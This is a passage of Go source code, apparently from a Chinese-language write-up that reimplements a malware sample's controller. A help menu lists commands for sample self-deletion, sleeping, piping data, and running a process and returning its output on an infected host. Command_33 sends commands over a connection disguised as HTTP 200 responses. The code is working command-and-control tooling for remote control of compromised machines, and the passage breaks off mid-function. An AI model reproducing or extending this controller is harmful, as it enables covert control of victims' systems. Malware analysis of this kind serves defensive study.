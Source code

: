 ```plain
                            } else if text == "30" {
                                common.Command_30(conn, buf_command)
                            }
                        }
                    }
                }
            } else if text == "34" || text == "11" || text == "12" {
                common.Command_34(conn, text)
                if text == "11" {
                    break
                }
            } else if text == "help" {
                fmt.Println("********支持功能如下********")
                fmt.Println("11：样本自删除")
                fmt.Println("12：休眠1小时")
                fmt.Println("30：向管道传输数据")
                fmt.Println("33：创建进程，并返回进程回显信息")
                fmt.Println("34：终止33指令运行的进程程序")
                fmt.Println("**************************")
            }
        }
        if err := reader.Err(); err != nil {
            fmt.Fprintln(os.Stderr, "读取标准输入时发生错误:", err)
            os.Exit(1)
        }
    }
}
```

-   command.go

```plain
package common

import (
    "encoding/hex"
    "fmt"
    "net"
    "strconv"
    "strings"
    "time"
)

func Command_33(conn net.Conn, command string) {
    sendcommond33(conn, command)

    data_header := RecvHeader(conn)
    fmt.Println(string(data_header))

    data_len, _ := strconv.Atoi(strings.ReplaceAll(strings.Split(strings.Split(string(data_header), "Content-Length: ")[1], "Connection:")[0], "\r\n", ""))

    time.Sleep(500 * time.Millisecond)

    data_buf := recvBuf(conn, data_len)
    fmt.Println(string(BytesToGB2312(data_buf)))
}

func sendcommond33(conn net.Conn, command string) {
    res_newline, _ := hex.DecodeString("0D0A")
    //HTTP/1.1 200 OK
    //Content-Type: text/html
    res1, _ := hex.DecodeString("485454502F312E3120323030204F4B200D0A436F6E74656E742D547970653A20746578742F68746D6C0D0A")
```